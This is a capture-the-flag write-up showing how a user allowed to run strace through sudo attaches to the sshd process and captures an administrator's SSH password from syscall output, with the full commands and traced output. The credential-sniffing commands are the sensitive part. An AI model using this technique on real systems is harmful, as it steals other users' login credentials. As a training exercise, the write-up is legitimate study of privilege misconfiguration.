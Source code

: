 ## Information
We are given the ip of a machine with the creds of a regular user  
We know that an administrator regularly connects to it  

## Basic Inspection
we can see its home with `ls -lA /home/monkey`  
nothing fancy here, no interesting file and we are not permitted to read or write them  
reading the logs with `cat /var/log/wtmp` we can see its ip and username, (i don't know at all if this step could be interesting or not but here it is)  

## First idea
time has come to know our rights!  
what can we do?
a little `sudo -l` learns us that we have actually great great powers:
```
$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for piwie: 
Matching Defaults entries for piwie on 8aabd5f4361e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User piwie may run the following commands on 8aabd5f4361e:
    (ALL) /usr/bin/strace

```
the `strace` could prove really usefull...

spamming `ps aux` we also see the `monkey` `sshd` process appearing: the admin actually regularly logs in

## Beginning the attack
Let's looks into it:  
with `ps aux` we note:
```
root           1  0.0  0.0  69968  6128 ?        Ss   04:18   0:00 /usr/sbin/sshd -D
```
let's inspect it !

we run `sudo strace -p 1` then wait a bit... we can saw SIGCHILD signal received  
we should follow these processes but the output will be a mess so lets separate it and write it to files:  
`sudo strace -p 1 -ff -o output` should write the output of the diff pid to separate files
here we go !
```
$ sudo strace -p 1 -ff -o output
strace: Process 1 attached
strace: Process 26869 attached
strace: Process 26870 attached
strace: Process 26871 attached
strace: Process 26872 attached
strace: Process 26873 attached
...
```

## Final steps
quite some...
let's look at them, and there we find an interesting info:
```
write(4, "\0\0\0&ZiTF{j9obn4mdn16kp015jkj2kf9"..., 42) = 42
```
This is probably one of the syscalls executed when the admin types its password.

looks promising but we don't have it all so lets write more!  
`sudo strace -p 1 -ff -o output -s 100` should write at most 100 bytes of each string
and there we go:
```
$ cat output.* | grep ZiTF
read(6, "\f\0\0\0&ZiTF{j9obn4mdn16kp015jkj2kf9wlb3z2drc}", 43) = 43
write(4, "\0\0\0&ZiTF{j9obn4mdn16kp015jkj2kf9wlb3z2drc}", 42) = 42
```
flagged!